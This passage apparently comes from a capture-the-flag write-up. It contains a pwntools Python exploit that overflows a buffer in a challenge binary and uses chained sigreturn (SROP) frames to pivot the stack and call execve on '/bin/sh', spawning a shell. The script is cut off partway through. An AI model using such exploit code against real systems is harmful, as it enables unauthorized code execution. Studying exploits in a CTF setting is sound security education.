 2. In the second `rt_sigreturn` syscall, I just do an `execve` syscall with the now existing '/bin/sh\x00' string in memory.

You may need to run the exploit remotely a couple of times. Doesn't seem to be completely reliable due to network lag? It works perfectly locally.
```python
#!/usr/bin/env python2

from pwn import *

elf = ELF('./vuln')

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

def start():
    if not args.REMOTE:
        return process('./vuln')
    else:
        return remote('146.148.108.204', 4444)

p = start()
if args.GDB:
    gdb.attach(p)

p.recv()

# Important addresses
pop_rax = 0x401032 # pop rax; syscall
syscall = 0x401033 # syscall; leave; ret
rw = 0x402040 # read-write section

payload = 'A'*136 # overflow to return address
payload += p64(pop_rax) # pop rax; syscall
payload += p64(0xf) # make syscall number 15 for rt_sigreturn

# Sigreturn frame
frame = SigreturnFrame()
frame.rax = 0 # Read syscall
frame.rsp = rw+8 # move the stack pointer to the bss segment
frame.rbp = rw+0x60 # Move the base pointerr to the bss segment
frame.rdi = 0 # Read from stdin
frame.rsi = rw # Read into the read-write section
frame.rdx = 0x400 # Read 0x400 bytes
frame.rip = syscall # jumps to the syscall; leave; ret gadget after syscall

payload += str(frame)

p.sendline(payload)

# Sleep to let the payload send (needed for remote)
sleep(1)

# Now we start our new payload in the bss segment
# ------------------------------------
payload = '/bin/sh\x00' # Input /bin/sh\x00 to use later
payload += 'A'*96 # Overwrite until return address in our "emulated" stack
payload += p64(pop_rax) # Jump to pop rax; syscall
payload += p64(0xf) # Make syscall number 15 for rt_sigreturn

# Call execve now
frame = SigreturnFrame()
frame.rax = 59 # execve
frame.rdi = rw # addr of /bin/sh\x00
```
